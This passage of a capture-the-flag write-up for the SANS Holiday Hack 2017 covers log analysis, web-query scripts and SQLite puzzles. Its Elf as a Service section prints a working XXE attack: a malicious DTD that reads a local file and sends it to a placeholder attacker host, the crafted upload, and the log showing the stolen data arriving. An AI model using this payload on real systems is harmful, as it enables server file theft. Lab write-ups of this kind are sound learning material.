    Use the supplied log file from our server in the North Pole.
    Identifying the least-popular browser is your noteworthy goal.

Alright, it seems we just have to analyze and find the least popular browser
in a log file:

.. code-block:: console

    elf@7283fcc58ff6:~$ ls -lh
    total 29M
    -rw-r--r-- 1 root root  24M Dec  4 17:11 access.log
    -rwxr-xr-x 1 root root 5.0M Dec 11 17:31 runtoanswer
    elf@7283fcc58ff6:~$ head access.log
    XX.YY.66.201 - - [19/Nov/2017:06:50:30 -0500] "GET /robots.txt HTTP/1.1" 301 185 "-" "Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)"
    XX.YY.66.201 - - [19/Nov/2017:06:50:30 -0500] "GET /robots.txt HTTP/1.1" 404 5 "-" "Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)"
    XX.YY.89.151 - - [19/Nov/2017:07:13:03 -0500] "GET /img/common/apple-touch-icon-57x57.png HTTP/1.1" 200 3677 "-" "Slack-ImgProxy (+https://api.slack.com/robots)"
    XX.YY.66.201 - - [19/Nov/2017:07:22:12 -0500] "GET / HTTP/1.1" 301 185 "-" "Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)"
    XX.YY.45.77 - - [19/Nov/2017:07:43:08 -0500] "GET /img/common/apple-touch-icon-57x57.png HTTP/1.1" 200 3677 "-" "Slack-ImgProxy (+https://api.slack.com/robots)"
    XX.YY.201.12 - - [19/Nov/2017:08:21:10 -0500] "GET /manager/html HTTP/1.1" 301 185 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)"
    XX.YY.218.124 - - [19/Nov/2017:08:22:09 -0500] "GET /img/common/favicon-128.png HTTP/1.1" 304 0 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
    XX.YY.68.152 - - [19/Nov/2017:08:43:27 -0500] "GET /img/common/apple-touch-icon-57x57.png HTTP/1.1" 200 3677 "-" "Slack-ImgProxy (+https://api.slack.com/robots)"
    XX.YY.236.170 - - [19/Nov/2017:08:48:39 -0500] "GET /img/common/apple-touch-icon-57x57.png HTTP/1.1" 200 3677 "-" "slack/2.47.0.7352 (motorola Moto G (4); Android 7.0)"
    XX.YY.11.135 - - [19/Nov/2017:08:56:32 -0500] "GET / HTTP/1.1" 304 0 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0"

We can see that the last column holds the user-agent. We can also observe that
the user-agent is just after the fifth double-quote on the line. So, if we use
the :code:`cut` command, with :code:`"` as a separator, we will get the
user-agent by asking for the sixth field:

.. code-block:: console

    elf@7283fcc58ff6:~$ cut -d'"' -f 6 access.log
    Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)
    Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)
    Slack-ImgProxy (+https://api.slack.com/robots)
    Mozilla/5.0 (compatible; DotBot/1.1; http://www.opensiteexplorer.org/dotbot, help@moz.com)
    Slack-ImgProxy (+https://api.slack.com/robots)
    Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)
    Mozilla/5.0 (X11; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
    Slack-ImgProxy (+https://api.slack.com/robots)
    slack/2.47.0.7352 (motorola Moto G (4); Android 7.0)
    Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
    [snip]

Alright, now that we have only the user-agents, we can :code:`sort` the
user-agents, and use :code:`uniq` to  remove duplicates, and count the number
of unique user-agents:

.. code-block:: console
    :hl_lines: 4

    elf@7283fcc58ff6:~$ cut -d'"' -f 6 access.log  | sort | uniq -c
          2 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
        143 -
          1 Dillo/3.0.5
          3 GarlikCrawler/1.2 (http://garlik.com/, crawler@garlik.com)
         34 Googlebot-Image/1.0
          3 MobileSafari/604.1 CFNetwork/889.9 Darwin/17.2.0
          4 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
          8 Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)
        345 Mozilla/4.0 (compatible;)
          2 Mozilla/5.0
    [snip]

Hmm, :code:`Dillo/3.0.5` seems to be the least popular web-browser, with only
one entry. However, there may be other user-agents with only one hit in the
log file. Let's sort our counted output:

.. code-block:: console
    :hl_lines: 62

    elf@7283fcc58ff6:~$ cut -d'"' -f 6 access.log  | sort | uniq -c | sort -gr
      27285 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
       8501 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
       6221 Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
       6183 Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
       3163 Mozilla/5.0 (Windows NT 10.0; Win64; x64; Trident/7.0; rv:11.0) like Gecko
       2733 Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/62.0.3202.94 Chrome/62.0.3202.94 Safari/537.36
       2427 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
       2099 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
       2006 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
       2002 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
    [snip]
          2 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
          1 slack/2.47.1.7358 (samsung SM-G955F; Android 7.0)
          1 slack/2.47.1.7358 (samsung SM-G950U; Android 7.0)
          1 slack/2.47.1.7358 (samsung SM-G935T; Android 7.0)
          1 slack/2.47.1.7358 (samsung SM-G935L; Android 7.0)
          1 slack/2.47.1.7358 (samsung SM-G930F; Android 7.0)
          1 slack/2.47.1.7358 (samsung SM-G920P; Android 7.0)
          1 slack/2.47.1.7358 (motorola XT1635-02; Android 7.1.1)
          1 slack/2.47.1.7358 (motorola Moto G (5) Plus; Android 7.0)
          1 slack/2.47.1.7358 (Xiaomi Redmi Note 4; Android 7.0)
          1 slack/2.46.0.7100 (lenovo Lenovo K8 Note; Android 7.1.1)
          1 slack/2.47.1.7358 (OnePlus ONEPLUS A3000; Android 7.1.1)
          1 slack/2.47.1.7358 (OnePlus ONE A2003; Android 8.0.0)
          1 slack/2.47.1.7358 (LYF LS-5504; Android 5.1.1)
          1 slack/2.47.1.7358 (Intex Cloud Q11 4G; Android 6.0)
          1 slack/2.47.1.7358 (Huawei Nexus 6P; Android 8.0.0)
          1 slack/2.47.1.7358 (HUAWEI AGS-W09; Android 7.0)
          1 slack/2.47.1.7358 (Google Pixel XL; Android 8.0.0)
          1 slack/2.47.0.7352 (samsung SM-N950U; Android 7.1.1)
          1 slack/2.47.0.7352 (samsung SAMSUNG-SM-N910A; Android 6.0.1)
          1 slack/2.47.0.7352 (samsung SAMSUNG-SM-G870A; Android 6.0.1)
          1 slack/2.47.0.7352 (motorola Moto G (4); Android 7.0)
          1 slack/2.47.0.7352 (Sony F8331; Android 7.1.1)
          1 slack/2.47.0.7352 (OnePlus ONEPLUS A3003; Android 7.1.1)
          1 slack/2.47.0.7352 (OnePlus A0001; Android 7.1.2)
          1 slack/2.47.0.7352 (LGE Nexus 5; Android 6.0.1)
          1 slack/2.47.0.7352 (Google Pixel; Android 8.0.0)
          1 slack/2.46.0.7100 (lenovo Lenovo K8 Note; Android 7.1.1)
          1 slack/2.46.0.7100 (Wingtech 2014818; Android 7.1.2)
          1 slack/2.46.0.7100 (OnePlus ONE E1003; Android 6.0.1)
          1 slack/2.46.0.7100 (OnePlus ONE A2003; Android 6.0.1)
          1 masscan/1.0 (https://github.com/robertdavidgraham/masscan)
          1 masscan/1.0
          1 curl/7.35.0
          1 Slack/370354 CFNetwork/893.14 Darwin/17.3.0
          1 Slack/370354 CFNetwork/893.10 Darwin/17.3.0
          1 Slack/370342 CFNetwork/808.3 Darwin/16.3.0
          1 Slack/370136 CFNetwork/811.5.4 Darwin/16.7.0
          1 Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
          1 Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; Touch; MASEJS)
          1 Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; MASMJS)
          1 Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)
          1 Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
          1 Mozilla/5.0 (X11; OpenBSD amd64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36
          1 Mozilla/5.0 (X11; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
          1 Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko
          1 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
          1 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/604.3.5 (KHTML, like Gecko)
          1 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36
          1 Dillo/3.0.5

Well, even though some other user-agents have only one hit, they seem to be
different versions of the same browser. :code:`Dillo/3.0.5` seems to be our
winner:

.. code-block:: console
    :hl_lines: 3

    elf@7283fcc58ff6:~$ ./runtoanswer
    Starting up, please wait......
    Enter the name of the least popular browser in the web log: Dillo/3.0.5
    That is the least common browser in the web log! Congratulations!

Redirecting the snowball
........................

Now that we found the least popular browser, we get a new object: the Bumper,
which can redirect the snowball.

.. image:: /images/sans-christmas-challenge-2017/bumbles_bounce_terminal.png
    :alt: bumbles_bounce_terminal.png
    :align: center

Now here's the layout I used to redirect the snowball. Incidently, I learned
that the Jam slows the snowball down, because it's sticky:

.. image:: /images/sans-christmas-challenge-2017/bumbles_bounce_snowball.gif
    :alt: bumbles_bounce_snowball.gif
    :align: center

This level had the `fifth page to The Great Book </docs/sans-christmas-challenge-2017/GreatBookPage5.pdf>`__ (sha256: :code:`aed664454f956ed4f80c54540c4980ae28912c3ff816733a6fb84b366bd32c67`):

    The Abominable Snow Monster

    When the Elves and reindeer refugees first arrived at the North Pole, they
    found a barren but workable landscape. The desolate peace of the cold North
    was a welcomed change from the bitter battles with the Munchkins back in
    Oz. Dressed up like Eskimos for their first several months, all elves from
    one to ninety-two worked without interruption building homes for
    themselves, stalls for the reindeer, toy production lines, and finally a
    splendid castle for Santa.

    But then, it started. Some of their food stocks mysteriously disappeared.
    Initially, the Elves hypothesized that Munchkins Moles were pilfering their
    provisions, so they embarked on a detailed investigation. Sadly, the
    taskforce found very little evidence, except for MASSIVE footprints in the
    snow near the food storage bins.

    And then, it got worse. Elves started disappearing. One at a time, over the
    space of a couple of weeks, a half dozen elves simply vanished, their last
    known location surrounded by more gigantic footprints.

    The taskforce bravely followed the footprints back to an enormous cave,
    where they found a gigantic furry beast with horrible fangs. The so-called
    "Abominable Snow Monster" had enslaved the kidnapped elves, forcing them
    to make gigantic snowballs he could throw as weapons. After mounting a
    daring rescue operation, the Elves vowed to steer clear of the entire
    region inhabited by the Abominable.

    In later years, through the tireless efforts of social worker and arctic
    prospector Yukon Cornelius, a miracle occurred! The Abominable actually
    became a jolly, happy soul, who could laugh and play. The Elves welcomed
    the newly friendly beast and started calling him "Bumble" as he earned a
    job putting Christmas tree toppers into place without a stepladder.

    Very recently, though, the Bumble's behaviour has become quite erratic.
    Several times every day, his eyes seem to go blank as he stares off into
    the distance. Rumor among the elves is that there must have been some
    magic in something the Bumble ate. As of this writing, the Bumble is under
    careful analysis by Yukon Cornelius and the North Pole's best
    veterinarians. A diagnosis remains elusive.

After solving this challenge, we have a little chat with Sam the Snowman:

    **Bumble:** Arrrrrrrrgh! Grrrrrrrr! ROOOOOOOAR!

    **Sam the Snowman:** You've done it! You found out who was throwing the
    giant snowballs! It was the Abominable Snow Monster. We should have known.
    Thank you for your great work!

    But, you know, he doesn't seem quite himself. Look into his eyes. It almost
    looks like he has been hypnotized. Something's not right with him.

    In fact, he seems to be under someone else's control. We've got to find out
    who is pulling his strings, or else the real villain will remain on the
    loose and will likely strike again.

    It means, buckle your seatbelt, dear player, because the North Pole is
    going bye-bye.

North Pole Christmas Town infrastructure: North Pole Police Department web site
-------------------------------------------------------------------------------

In the fourth page, we learned the existence of Munchkin moles, that try to
pass for Elves in order to spy on them. Let's try to learn more about these
Munchkin moles!

If we take a look back at the documents we found on the SMB server, there is
one called "BOLO - Munchkin Mole Report.docx". This is the content:

    BOLO: Munchkin Mole Advisory

    Please be advised that the long-rumored munchkin moles are now believed to
    be real.  After a detailed and thorough investigation, North Pole
    Authorities have identified two munchkins impersonating elves in Santa's
    workshop.

    When confronted, both munchkins were able to evade elf authorities after
    throwing rocks and engaging in aggravated hair pulling. The pair
    mysteriously disappeared after speaking an unknown word sounding like
    "puuurzgexgull."

    Munchkin Descriptions

    **Name**: Boq Questrian

    **Height**: Approximately 4 feet

    **Weight**: Unknown

    **Appearance**: Reddish skin tone, blue eyes. A single curl of hair
    dominates an otherwise unremarkable hairstyle.

    **Warning**: Boq is uncannily accurate at short-distance rock throwing.

    **Name**: Bini Aru

    **Height**: Approximately 4 feet

    **Weight**: Unknown

    **Appearance**: Pale skin, grey eyes. Unruly black hair.

    **Warning**: Bini is unrelenting in hair pulling.

    If you see these munchkin moles, do not attempt to detain or apprehend
    them. Contact the North Pole Police Department for assistance.

    For more information visit https://nppd.northpolechristmastown.com.

    Merry Christmas!

So, two Munchkin moles were identified, Boq Questrian and Bini Aru. But there
may be more. Let's try and use the North Pole Police Department's website
to identify potential moles.

The `North Pole Police Department's website <https://nppd.northpolechristmastown.com>`__
has a section infractions, where you can find what kind of infractions were
commited by children. The infractions go from `playing ball in the house <https://nppd.northpolechristmastown.com/infractions?query=Playing+ball+in+house>`__
to `trying to ruin Christmas <https://nppd.northpolechristmastown.com/infractions?query=Trying+to+ruin+Christmas>`__.

After too many infractions, children are put on the naughty list. But how many
infractions does it take?

On the SMB server, we also had a file called "Naughty and Nice List.csv", which
gives us, line by line, the name of a child and whether their naughty or nice:

.. code-block:: console

    $ head Naughty\ and\ Nice\ List.csv
    Abdullah Lindsey,Nice
    Abigail Chavez,Nice
    Aditya Perera,Naughty
    Adrian Kemp,Nice
    Adrian Lo,Nice
    Adriana Sutherland,Nice
    Agnes Adam,Nice
    Ahmed Hernandez,Nice
    Al Molina,Nice
    Alabaster Snowball,Nice

Shame on you, Aditya Perera! Anyway, we can query the North Pole Police
Department website to query information on the children, and get results in
JSON for easy parsing. So, here's a quick Python script which queries the
NPPD website, and get the number of infractions for every child:

.. code-block:: python

    #!/usr/bin/env python3

    import sys
    import requests

    def main(naughty_nice_file):
        url = 'https://nppd.northpolechristmastown.com/infractions?query={}&json=1'
        max_infraction_nice = -1
        min_infraction_naughty = sys.maxsize

        with open(naughty_nice_file, 'r') as f:
            # We read every line...
            for line in f.readlines():
                # ...and get the name of the child
                name = line.split(',')[0]
                r = requests.get(url.format(name))
                # We retrieve the number of infraction for the child
                number_of_infractions = r.json()['count']
                # If the child is nice, we see if the number of infraction is
                # greater than the existing max
                if 'Nice' in line:
                    if number_of_infractions > max_infraction_nice:
                        max_infraction_nice = number_of_infractions
                # If the child is naughty, we see if the number of infraction is
                # smaller than the existing min
                if 'Naughty' in line:
                    if number_of_infractions < min_infraction_naughty:
                        min_infraction_naughty = number_of_infractions

        print('Maximum number of infractions for nice child: {}'.format(max_infraction_nice))
        print('Minimum number of infractions for naughty child: {}'.format(min_infraction_naughty))

    if __name__ == '__main__':
        if len(sys.argv) == 2:
            main(sys.argv[1])
        else:
            print('usage: {} <naughty_nice_file>'.format(sys.argv[0]))

Now, let's run the script:

.. code-block:: console

    $ ./number_of_infractions.py "Naughty and Nice List.csv"
    Maximum number of infractions for nice child: 3
    Minimum number of infractions for naughty child: 4

We've found that every nice child has at most three infractions, and every
naughty child has at least four infractions. So it's safe to say that it takes
four infractions to be put on the naughty list.

Technically, we could have only queried the number of infractions for naughty
children, which wouls have given us four. Then we would only had to find a
nice child with three infractions, such as `Al Molina <https://nppd.northpolechristmastown.com/infractions?query=al+molina>`__.
This supposes that :math:`max\_infraction\_nice < min\_infraction\_naughty`,
but this seems to be a valid hypothesis.

Now, according to the report, the Munchkin moles were heavily into hair-pulling
and rock-throwing. Let's query the NPPD website for children that commited both
these infractions:

.. code-block:: python

    #!/usr/bin/env python3

    import requests

    def main():
        hair_pulling_url = 'https://nppd.northpolechristmastown.com/infractions?query=Aggravated+pulling+of+hair&json=1'
        rock_throwing_url = 'https://nppd.northpolechristmastown.com/infractions?query=Throwing+rocks+%28at+people%29&json=1'

        # We use sets to avoid duplicate names
        hair_pullers = set()
        rock_throwers = set()

        # We first get hair-pullers
        r = requests.get(hair_pulling_url)
        for result in r.json()['infractions']:
            hair_pullers.add(result['name'])

        # Then we get rock throwers
        r = requests.get(rock_throwing_url)
        for result in r.json()['infractions']:
            rock_throwers.add(result['name'])

        # Finally, we get the intersection, to find children who have done both
        print('\n'.join(hair_pullers.intersection(rock_throwers)))

    if __name__ == '__main__':
        main()

.. code-block:: console

    $ ./find_moles.py
    Nina Fitzgerald
    Kirsty Evans
    Beverly Khalil
    Sheri Lewis

We now have the name of four more probable Munchkin moles, which gives us a
total of six Munchkin moles.

Sixth page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: I don't think we're in Kansas anymore
------------------------------------------------------------
Cranberry Pi
............

::

                           *
                          .~'
                         O'~..
                        ~'O'~..
                       ~'O'~..~'
                      O'~..~'O'~.
                     .~'O'~..~'O'~
                    ..~'O'~..~'O'~.
                   .~'O'~..~'O'~..~'
                  O'~..~'O'~..~'O'~..
                 ~'O'~..~'O'~..~'O'~..
                ~'O'~..~'O'~..~'O'~..~'
               O'~..~'O'~..~'O'~..~'O'~.
              .~'O'~..~'O'~..~'O'~..~'O'~
             ..~'O'~..~'O'~..~'O'~..~'O'~.
            .~'O'~..~'O'~..~'O'~..~'O'~..~'
           O'~..~'O'~..~'O'~..~'O'~..~'O'~..
          ~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..
         ~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'
        O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~.
       .~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~
      ..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~.
     .~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'
    O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..~'O'~..
    Sugarplum Mary is in a tizzy, we hope you can assist.
    Christmas songs abound, with many likes in our midst.
    The database is populated, ready for you to address.
    Identify the song whose popularity is the best.

After finding the least popular browser, we must now find the most popular song
in the database:

.. code-block:: console

    elf@e3f1a585649d:~$ ls -lh
    total 21M
    -rw-r--r-- 1 root root  16M Nov 29 19:28 christmassongs.db
    -rwxr-xr-x 1 root root 5.0M Dec  7 15:10 runtoanswer

A database in a single flat file indicates that it's most likely a SQLite
database:

.. code-block:: console

    elf@e3f1a585649d:~$ sqlite3 ./christmassongs.db
    SQLite version 3.11.0 2016-02-15 17:29:24
    Enter ".help" for usage hints.
    sqlite> .tables
    likes  songs

We have two tables, one named :code:`likes`, one named :code:`songs`. Let's
see their structure:

.. code-block:: console
    :hl_lines: 3 4 11 13

    sqlite> .schema
    CREATE TABLE songs(
      id INTEGER PRIMARY KEY AUTOINCREMENT,
      title TEXT,
      artist TEXT,
      year TEXT,
      notes TEXT
    );
    CREATE TABLE likes(
      id INTEGER PRIMARY KEY AUTOINCREMENT,
      like INTEGER,
      datetime INTEGER,
      songid INTEGER,
      FOREIGN KEY(songid) REFERENCES songs(id)
    );

The :code:`songs` table is pretty straightforward. The :code:`likes` table
holds the number of likes for every song, using the song's id. If the
column :code:`like` is 1, then the song was liked.

We can query the database to get the number of likes for every song id.
The correct query was found after reading `this tutorial on the COUNT function <http://www.sqlitetutorial.net/sqlite-count-function/>`__.
This query will get the song id, their number of likes, and will sort them from
least to most liked.

.. code-block:: sql

    sqlite> SELECT songid, count(*) from likes WHERE like=1 GROUP BY songid ORDER BY count(*);
    [...]
    33|1698
    199|1702
    98|1706
    90|1715
    134|1719
    265|1720
    245|1756
    392|8996

Alright, the song with the id 392 is the most liked song. Now, we could query
the :code:`songs` manually... Or! We could use an `inner junction <http://www.sqlitetutorial.net/sqlite-inner-join/>`__,
just for the fun:

.. code-block:: sql
    :hl_lines: 3 16

    sqlite> SELECT title, count(*) from likes INNER JOIN songs on songs.id=likes.songid WHERE like=1 GROUP BY songid ORDER BY count(*);
    [...]
    I Farted on Santa's Lap (Now Christmas Is Gonna Stink for Me)|1689
    Why Couldn't It Be Christmas Every Day?|1691
    A Baby Changes Everything|1693
    I'll Be Home|1695
    Old Time Christmas|1696
    Cold December Night|1697
    Blue Holiday|1698
    Home for Christmas|1702
    Christmas Memories|1706
    Christmas Is Now Drawing Near at Hand|1715
    Coventry Carol|1719
    The Little Boy that Santa Claus Forgot|1720
    Joy to the World|1756
    Stairway to Heaven|8996

The most-liked song this Christmas seems to be `Stairway to Heaven <https://www.youtube.com/watch?v=cwFQpRTwaP0>`__.
Although `I Farted on Santa's Lap (Now Christmas Is Gonna Stink for Me) <https://www.youtube.com/watch?v=FlFjR2vUy3M>`__
seems to be doing pretty well!

.. code-block:: console

    elf@ef4955c61cfe:~$ ./runtoanswer
    Starting up, please wait......
    Enter the name of the song with the most likes: Stairway to Heaven
    That is the #1 Christmas song, congratulations!

Redirecting the snowball
........................

Having the found the most popular song for this Christmas, we're given a new
object: the Portal, which can create a duplicate of our snowball in a second
place.

.. image:: /images/sans-christmas-challenge-2017/i_dont_think_we_re_in_kansas_terminal.png
    :alt: i_dont_think_we_re_in_kansas_terminal.png
    :align: center

Here's the layout:

.. image:: /images/sans-christmas-challenge-2017/i_dont_think_we_re_in_kansas_anymore.gif
    :alt: i_dont_think_we_re_in_kansas_anymore.gif
    :align: center

North Pole Christmas Town infrastructure: Elf as a Service platform
-------------------------------------------------------------------

The Elf as a Service platform is a web application where you can order new
elves. To do so, you only have to upload an XML files, containing the details
of th elves you wish to order:

.. code-block:: http

    POST /Home/DisplayXml HTTP/1.1
    Host: eaas.northpolechristmastown.com
    Content-Length: 1946
    Origin: http://eaas.northpolechristmastown.com
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryflybX2ZBWLwspXMu

    ------WebKitFormBoundaryflybX2ZBWLwspXMu
    Content-Disposition: form-data; name="file"; filename="Elfdata.xml"
    Content-Type: text/xml

    <?xml version="1.0" encoding="utf-8"?><Elf><Elf><ElfID>1</ElfID><ElfName>Elf On a Shelf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>1.png</Picture><Address>On a Shelf, Obviously</Address></Elf><Elf><ElfID>2</ElfID><ElfName>Buddy the Elf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>2.png</Picture><Address>New York City</Address></Elf><Elf><ElfID>3</ElfID><ElfName>Legolas</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>3.png</Picture><Address>Middle Earth</Address></Elf><Elf><ElfID>4</ElfID><ElfName>Marcus Elf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>4.png</Picture><Address>Canada</Address></Elf><Elf><ElfID>5</ElfID><ElfName>Alf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>5.png</Picture><Address>Melmac</Address></Elf><Elf><ElfID>6</ElfID><ElfName>Dobby the House Elf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>6.png</Picture><Address>London</Address></Elf><Elf><ElfID>7</ElfID><ElfName>Malekith</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>7.png</Picture><Address>Asgard</Address></Elf><Elf><ElfID>8</ElfID><ElfName>Keebler Elf</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>8.png</Picture><Address>Tree</Address></Elf><Elf><ElfID>9</ElfID><ElfName>Jangle Bells</ElfName><Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase><Picture>9.png</Picture><Address>North Pole</Address></Elf></Elf>

    ------WebKitFormBoundaryflybX2ZBWLwspXMu--

.. image:: /images/sans-christmas-challenge-2017/eaas_application.png
    :alt: eaas_application.png
    :align: center

Hmm, that's interesting. Uploading XML files can often lead to eXternal XML
Entities (XXE) attacks. If the XML parser on the server side does not filter
XML entities, we can make the server perform several actions, such as outputing
the content of a local file, etc. More details are given in this `SANS blog
post <https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities>`__.

Since we want to recover the content of :code:`C:\greatbook.txt`, let's
implement the attack, as given in the above tutorial. First, we'll host a
malicious .dtd file on our public facing server:

.. code-block:: xml

    <?xml version="1.0" encoding="UTF-8"?>
    <!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
    <!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://X.X.X.X/greatbook?%stolendata;'>">

Then, we'll send our malicious XML file to the EaaS application:

.. code-block:: html
    :hl_lines: 12 13 14 15 16

    POST /Home/DisplayXml HTTP/1.1
    Host: eaas.northpolechristmastown.com
    Content-Length: 731
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryflybX2ZBWLwspXMu

    ------WebKitFormBoundaryflybX2ZBWLwspXMu
    Content-Disposition: form-data; name="file"; filename="Elfdata.xml"
    Content-Type: text/xml

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE demo [
         <!ELEMENT demo ANY >
         <!ENTITY % extentity SYSTEM "http://X.X.X.X/evil.dtd">
         %extentity;
         %inception;
         %sendit;
          ]
    >
    <Elf>
        <Elf>
            <ElfID>1</ElfID>
            <ElfName>Elf On a Shelf</ElfName>
            <Contact>8675309</Contact>
            <DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase>
            <Picture>1.png</Picture>
            <Address>On a shelf, obviously</Address>
       </Elf>
    </Elf>

    ------WebKitFormBoundaryflybX2ZBWLwspXMu--

We now trigger the XML parser by visiting the :code:`/Home/DisplayXml` page,
which will trigger the downloading of our evil .dtd file:

.. code-block:: console

    $ tail -f access.log | grep -E 'greatbook|evil.dtd'
    35.185.118.225 - - [29/Dec/2017:00:22:54 +0100] "GET /evil.dtd HTTP/1.1" 200 200 "-" "-"
    35.185.118.225 - - [29/Dec/2017:00:22:54 +0100] "GET /greatbook?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1" 404 169 "-" "-"

Our payload work! We now have the content of :code:`C:\greatbook.txt`, which
is the URL http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf.
We can now download the `sixth page of The Great Book </docs/sans-christmas-challenge-2017/greatbook6.pdf>`__
(sha256: :code:`92dff9b155da22001dc72340791bde703fbf83bc0369e95aa9baea4ed5c36a84`):

    The Dreaded Inter-Dimensional Tornadoes

    Throughout our recorded history, Oz has benefitted from quite favorable
    weather, with frequent sunny days and a moderatly warm climate. Indeed, all
    Munchkins enjoy essentially year-round springtime weather, keepking flowers
    in bloom and making spirits bright.

    However, one type of weather phenomenon interrupts the otherwise beautiful
    climate of Oz - the dreaded Inter-Dimensional Tornadoes - when the weather
    outside is frightful. While quite rare, these ferocious storms appear
    suddenly and without a warning, striking Oz every year or two. These
    calamitous cyclones vary in intensity, but even the weakest have caused
    significant damage, lifting houses off their foundations and shredding
    everything in their deadly path, especially paper products.

    Inter-Dimensional Tornadoes get their unusual name because their intense
    power has been known to rip holes into the very fabric of space and time,
    allowing a single tornado to strike multiple different places in disparate
    time eras simultaneously, interlinking each time and location touched by
    the storm into a swirling inter-dimensional space-time vortex. Although the
    specific physics of such storms remains elusive to our best scientists, one
    thing is consistently observed by researchers and historians: When an
    Inter-Dimensional Tornado strikes, it not only scatters whatever it has
    vacuumed up throughout many lands, it sometimes also drops artifacts from
    the past or even the future in its wake. Such storms have brought antique
    watches, clothing, and curious gadgetry, lifting them from distant times
    and far away places and depositing them in Oz.

Seventh page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: Oh wait! Maybe we are...
-----------------------------------------------
Cranberry Pi
............

::

                  \ /
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
